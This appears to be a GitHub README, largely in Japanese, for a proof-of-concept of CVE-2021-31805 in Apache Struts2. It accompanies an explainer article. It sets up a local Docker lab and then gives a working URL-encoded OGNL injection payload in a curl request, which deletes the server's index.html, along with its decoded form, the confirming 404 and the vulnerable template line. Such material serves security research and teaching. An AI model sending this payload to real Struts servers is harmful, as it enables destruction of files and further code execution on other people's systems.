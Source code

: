 # CVE-2021-31805

 PoC for CVE-2021-31805 (Apache Struts2)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/aeyesec](https://github.com/aeyesec) |
| Url      | [https://github.com/aeyesec/CVE-2021-31805](https://github.com/aeyesec/CVE-2021-31805)                                               |
| Stars    | 4                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-31805
PoC for CVE-2021-31805 (Apache Struts2)
[CVE-2021-31805の解説記事](https://qiita.com/AeyeScan/items/d0d9ae17f740d48f0bcd)で使用したアプリケーションです。

## セットアップ

```
$ docker-compose build
$ docker-compose up -d
```

## 動作確認
http://localhost:8080/struts2-showcase-2.5.29/index.html
にアクセスしWelcomeページが表示されることを確認します。

## Exploit

```
$ curl -I 'http://localhost:8080/struts2-showcase-2.5.29/index.html'
HTTP/1.1 200
(略)
$ curl -I 'http://localhost:8080/struts2-showcase-2.5.29/skill/list.action?skillName=%28%23%61%70%70%6c%69%63%61%74%69%6f%6e%5b%27%6f%72%67%2e%61%70%61%63%68%65%2e%63%61%74%61%6c%69%6e%61%2e%72%65%73%6f%75%72%63%65%73%27%5d%2e%67%65%74%52%65%73%6f%75%72%63%65%28%27%2f%69%6e%64%65%78%2e%68%74%6d%6c%27%29%2e%64%65%6c%65%74%65%28%29%29'
HTTP/1.1 200
(略)
URLデコードした値は
skillName=(#application['org.apache.catalina.resources'].getResource('/index.html').delete())
です。

$ curl -I 'http://localhost:8080/struts2-showcase-2.5.29/index.html'
HTTP/1.1 404
(snip)
index.htmlファイルが削除されていることが確認できます。
```

## 脆弱なコードの例
```
<li><s:label id="test2" name="%{skillName}"/></li>
```

## 参考情報
- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://cwiki.apache.org/confluence/display/WW/S2-062
- https://securitylab.github.com/research/apache-struts-double-evaluation/
- https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html



## Get the content

```
git clone https://github.com/aeyesec/CVE-2021-31805
cd CVE-2021-31805
```

{% embed url="https://github.com/aeyesec/CVE-2021-31805" %}

<figure><img src="https://avatars.githubusercontent.com/u/61375985?v=4" alt=""><figcaption><p>aeyesec</p></figcaption></figure>
